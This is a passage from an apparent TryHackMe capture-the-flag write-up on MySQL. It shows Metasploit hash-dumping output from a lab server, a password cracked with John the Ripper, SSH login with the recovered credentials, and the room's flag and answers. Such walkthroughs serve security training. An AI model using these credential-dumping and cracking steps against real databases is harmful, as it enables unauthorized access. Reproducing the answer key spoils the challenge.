 1. Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?<br>
    ```shell
    msf6 auxiliary(scanner/mysql/mysql_hashdump) > run
    [+] 10.10.70.91:3306 - Saving HashString as Loot: root:
    [+] 10.10.70.91:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] 10.10.70.91:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] 10.10.70.91:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
    [+] 10.10.70.91:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
    [+] 10.10.70.91:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
    [*] 10.10.70.91:3306 - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    ```
    **Answer:** carl

1. What is the user/hash combination string?<br>
    **Answer:** carl:*EA031893AA21444B170FC2162A56978B8CEECE18

1. Now, we need to crack the password! Let's try John the Ripper against it using: "john hash.txt" what is the password of the user we found?<br>
    ![](images/3.png)<br>
    **Answer:** doggie

1. What's the contents of MySQL.txt<br>
    Connect to the server with SSH account `carl:doggie`.<br>
    ```
    carl@polomysql:~$ cat MySQL.txt 
    THM{congratulations_you_got_the_mySQL_flag}
    ```
    **Answer:** THM{congratulations_you_got_the_mySQL_flag}
